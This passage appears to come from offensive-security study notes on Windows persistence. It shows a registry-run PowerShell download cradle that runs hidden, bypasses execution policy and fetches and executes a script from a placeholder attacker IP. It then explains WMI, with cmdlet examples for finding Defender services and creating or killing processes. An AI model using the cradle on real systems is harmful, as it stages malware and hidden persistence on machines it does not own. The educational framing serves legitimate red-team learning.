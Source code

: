 Of course, we can modify the registry variable to something a bit more useful like a PowerShell download cradle, like the following.
```powershell
$RegValue = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep Bypass -windowstyle hidden -nop iex (New-Object Net.WebClient).DownloadString('http://<AttackerIP>/<PowerShellScript>'); Invoke-Function"
```

### Leveraging WMI for Persistence (with Get-WmiObject, Invoke-WmiMethod, PowerLurk) - Theory

**Windows Management Instrumentation** (WMI) is a system management technology in Windows operating systems that provides an interface for monitoring and controlling both hardware and software components of a system. WMI enables system administrators to access and manipulate system information using an object-based schema. This means that users can query system information such as hardware details, installed software, configuration settings, and more through WMI queries.

WMI is designed to be extensible and supports a wide range of system management capabilities. Developers can create scripts, applications, and management tools that utilize WMI to automate system management tasks and monitor system status in real-time.

Key features provided by WMI include:
- System Monitoring: Administrators can monitor system performance, resource consumption, system events, and more through WMI queries.
- System Configuration: WMI can be used to manage system configuration settings such as users, groups, services, network, and security.
- Process Automation: WMI enables the automation of system management tasks through scripts and applications that perform management operations remotely or locally.
- Event Detection: WMI allows for the detection of system events, system errors, and more, enabling system administrators to respond quickly to anomalous situations.

We can use PowerShell to interface with WMI, using the `Get-WmiObject` and `Invoke-WmiMethod` commandlets.

#### Get-WmiObject

`Get-WmiObject -Class Win32_Service`: to retrieve information about system services.
`Get-WmiObject -Class Win32_Service | Where-Object {$_.State -Match "Running"}`: to retrieve information about running services.
`Get-WmiObject -Class Win32_Service | Where-Object {$_.Name -Match "Defend"}`: to retrieve information about services with names containing "Defend".

`Get-WmiObject -List Win32_Process | Get-Member -MemberType Method`: to list methods available for managing processes.
`$proc = Get-WmiObject -List Win32_Process`, `$proc.Create("cmd.exe")`: to create a new process (e.g. "cmd.exe").

#### Invoke-WmiMethod

`Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList cmd.exe`: to start a new process (e.g. "cmd.exe").
`Invoke-WmiMethod -Class Win32_Process -Filter {ProcessId = "2512"}`: to invoke methods on a specific process by Process ID.
`Invoke-WmiMethod -Class Win32_Process -Filter {ProcessId = "2512"} | Remove-WmiObject`: to kill a specific process by Process ID.
